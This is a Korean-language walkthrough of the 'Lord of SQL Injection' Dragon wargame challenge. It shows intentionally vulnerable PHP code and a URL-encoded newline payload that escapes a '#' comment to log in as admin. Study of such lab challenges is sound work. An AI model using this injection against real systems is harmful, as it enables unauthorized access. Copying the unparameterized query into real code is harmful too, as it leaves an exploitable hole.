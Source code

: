 # Lord of SQL Injection No.20 Dragon

Dragon 문제는 주석처리로 무력화된 절을 우회하여 사용할 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
```

`preg_match` 함수에서 필터링 하는 문자들이다. `&_GET` 방식으로 입력받은 `pw`값에 위의 문자들이 포함되면 `No Hack ~_~` 을 출력시키며 문제 풀이에 실패하게 된다.

```php
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
```

query문을 살펴보면 `id='guest'` 와 `and pw=` 사이에 `#`이 포함되어 있다.

이는 `pw`를 `$_GET` 방식으로 입력받기 때문에 가능했던 SQL 삽입 공격 절을 포함하여 `#` 뒤에 오는 모든 절을 무력화시킨다.

#### 문제 풀이 조건

```php
 if($result['id'] == 'admin') solve("dragon");
```

`id` 값이 `admin`과 일치하면 문제 풀이에 성공하게 된다.

## Solution

SQL 삽입 공격 절을 무력화시키는 주석을 우회하고 원하는 SQL문을 삽입하면 문제를 풀 수 있다.

SQL문의 주석은 **한 라인**에서 `#` 뒤에 오는 모든 절을 무력화시킨다.

한 라인에서만 유효한 주석이기 때문에 이를 이용하면 되는데, `$_GET` 방식으로 입력받는 `pw`에 개행문자 (\n)을 포함시키면 SQL문 자체에서 개행 처리가 되어 다음 줄에서 계속하여 SQL문이 실행된다.
즉, 개행을 사용하면 `#`가 아무리 뒤에 오는 절을 무력화시키더라도 다음 줄에서 원하는 SQL문을 수행하면 된다.

```
http://los.eagle-jump.org/dragon_7ead3fe768221c5d34bc42d518130972.php?pw=%27%0A%20and%20pw=%27123%27%20or%20id=%27admin%27%20--%20;
```

`pw='\n and pw='123' or id='admin' -- ;` 를 삽입하여 개행을 시켜준 후 조건에 맞게 `id`값을 `admin`으로 만들어주면 문제 풀이에 성공하게 된다.